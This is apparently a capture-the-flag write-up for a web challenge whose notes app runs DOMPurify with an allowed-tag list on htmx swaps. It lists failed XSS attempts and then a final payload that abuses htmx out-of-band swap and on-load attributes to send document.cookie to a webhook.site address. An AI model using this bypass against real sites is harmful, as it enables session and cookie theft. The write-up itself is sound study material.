

## Title

I'm not the CEO

## Description

I was fired due to my last notes app understandably, let me fix it here...

Author: ahh
http://45.129.40.107:9674/ | http://45.129.40.107:9675/ 

## Solution

We need to create a XSS payload to bypass the following filters:

```
const ALLOWED_TAGS = [
    'a',     
    'b',      
    'i',    
    'u',     
    'strong', 
    'em',     
    'p',      
    'h1',     
    'h2',
    'h3',
    'h4',
    'h5',
    'h6',
    'br',     
    'span',   
    'div'     
];

htmx.on("htmx:beforeSwap", (event) => {
    if (event.detail.target.id.startsWith("note")) {
        event.detail.serverResponse = DOMPurify.sanitize(event.detail.serverResponse, {ALLOWED_TAGS: ALLOWED_TAGS});
    }
});
```

I tried:

`</p></div></div></div><a id=\"test\" href=\"#\" onclick=\"alert('XSS')\">Click me</a><div><p>` -> We cant escape from the div notes-container
`<a id=\"test\" href=\"#\" onclick=\"alert('XSS')\">Click me</a>` -> It seems like sanitize clens the onclick.


The answer was using the `hx-on::afterRequest` attribute which allow the execution of arbitrary js.
Final payload:
```html
<div data-nice data-hx-swap-oob="beforeend:html">
  <div data-hx-on::load="fetch('//webhook.site/2c21cc27-c7bb-460b-b054-82b31ff38216?'+document.cookie)">
</div>
```

